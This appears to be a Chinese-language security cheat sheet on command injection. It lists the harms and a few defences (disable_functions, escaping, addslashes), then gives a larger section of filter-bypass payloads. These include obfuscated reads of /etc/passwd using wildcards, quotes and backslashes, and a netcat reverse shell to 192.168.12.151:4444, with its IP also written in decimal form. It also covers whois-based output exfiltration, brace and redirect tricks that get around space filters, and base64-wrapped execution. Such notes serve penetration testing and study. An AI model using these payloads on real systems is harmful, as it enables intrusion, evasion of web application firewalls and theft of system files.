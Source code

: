 ****

#### 危害

- 继承web服务器程序权限,`执行系统命令`,`读写`文件
- `反弹shell`
- `控制`整个服务器或网站

****

#### 防御

- 尽量不使用`执行系统命令`的函数,禁用`disable_functions`
- 在执行命令函数前,对参数进行`过滤`,敏感字符进行`转义`
- 参数尽量使用`引号包括`,拼接前调用`addslashes`进行转义

****

#### 变形

- `*`代表通配符`[0,无穷]`
- `?`代表`[一定有一个]`任意字符
- `[]`同样代表`[一定有一个在括号内]`的字符(非任意字符).例如`[abcd]随机一个`
- `[-]`若有减号在中括号内时,代表`[在编码顺序内的所有字符]`.例如[0-9]代表0-9之间的所有数字,因为数字的编码是连续的
- `[^]`若中括号内的第一个字符为指数符号`^`,那表示[反向选择],例如`[^abc]`代表一定有一个字符,只要是`非`a,b,c的其它字符就接收的意思

```cmd
//执行 cat /etc/passwd 读取passwd文件
//变形:/?in/?at/?tc/?ass?d  

//执行反弹shell时, nc -e /bin/bash 192.168.12.151 4444
//变形------------/???/nc -e/???/b???h 192.168.12.151 4444
//还可ip转数字,数字转ip
//变形------------/???/nc -e/???/b???h 3232238743 4444

//单引号----------------'n'c -e /'b'i'n'/b'a's'h' 1'9'2.1'6'8.1'5'1 '4'44'4'

//双引号----c"a"t /"e""t"c/"p"as"s"w"d"
//反斜杠----c\a\t /e\t\c/p\as\swd
//组合------c'a't /??c//p?/s?''?"d"

//未初始化变量
echo $a $b $c
cat$a /etc$a/passwd$a
a=w;b=hoa;c=mi;$a$b$b  --->输出root

//使用没有被waf过滤的命令
nc -lnvp 4444
靶机:whois -h 192.168.1.1 -p 4444 'whoami'

//反引号执行命令
`whoami`
ichunqiu `whoami` ichunqiu

//大括号,重定向符号绕过空格过滤
{cat,/etc/passwd}
{ls,-al}
l<>s
cat<>/etc/passwd

//base64编码
ehco whoami|base64  -->  d2hvYW1pCg==
`echo d2hvYW1pCg== | base64 -d`

//linux默认字符命令
${#PATH:5:1}${#PATH:2:1}
```